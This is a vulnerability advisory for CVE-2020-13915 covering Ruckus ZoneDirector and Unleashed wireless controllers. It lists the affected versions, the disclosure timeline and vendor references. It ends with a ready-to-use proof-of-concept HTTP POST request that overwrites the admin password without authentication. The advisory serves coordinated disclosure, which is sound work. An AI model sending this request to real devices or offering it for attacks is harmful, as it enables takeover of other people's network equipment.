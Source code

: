 ```yaml
---
layout: vuln
credit: waveburst
timeline:
    - type: 'report'
      date: '2020-02-05'
      arg: 'Ruckus Product Security Team'
    - type: 'patch'
      date: '2020-06-15'
      url: 'https://support.ruckuswireless.com/security_bulletins/304'
    - type: 'cve-assign'
      date: '2020-06-07'
    - type: 'release'
      date: '2020-08-05'
product:
     - ' - ZoneDirector

        - Unleashed'

vulnerable:
    '- ZoneDirector: 9.9 and before

    - ZoneDirector: 9.10.x

    - ZoneDirector: 9.12.x

    - ZoneDirector: 9.13.x

    - ZoneDirector: 10.0.x

    - ZoneDirector: 10.1.x

    - ZoneDirector: 10.2.x

    - ZoneDirector: 10.3.x

    - Unleashed: 200.6 and before

    - Unleashed: 200.7'

vulnerable:
     - ' - ZoneDirector: 9.9 and before

    - ZoneDirector: 9.10.x

    - ZoneDirector: 9.12.x

    - ZoneDirector: 9.13.x

    - ZoneDirector: 10.0.x

    - ZoneDirector: 10.1.x

    - ZoneDirector: 10.2.x

    - ZoneDirector: 10.3.x

    - Unleashed: 200.6 and before

    - Unleashed: 200.7'

severity: 'critical'
alephid: ALEPH-2020003
cve: CVE-2020-13915
date: '2020-06-07'
references:
    - src: 'Ruckus Networks - Security Advisory ID 20200615 - txt'
      url: 'https://www.ruckuswireless.com/security/304/view/txt'
    - src: 'Ruckus Networks - Security Advisory ID 20200615 - PDF'
      url: 'https://www.ruckuswireless.com/security/304/view/pdf'
  
title: 'Unauthenticated admin credentials overwrite'
---
```

Insecure permissions in emfd/libemf in Ruckus Wireless Unleashed through 200.7.10.102.92 allow a remote attacker to overwrite admin credentials via an unauthenticated crafted HTTP request.

Information about the exploitation of this vulnerability can alos be found in our  [DEFCON 28](https://www.youtube.com/watch?v=Yt3mJlnODHU) talk.

## Proof Of Concept ##
``` http
POST /admin/_wla_conf.jsp HTTP/1.1
Content-Type: application/x-www-form-urlencoded charset=UTF-8
Content-Length: 248
Connection: close

<ajax-request action='setconf' updater='acl-list.1579433244273.4243' comp='/system'>
	<admin username="admin" x-password="NewPass!" auth-token="" reset=true IS_PARTIAL="" auth-by="local" authsvr-id='0' fallback-local="true" />
</ajax-request>
```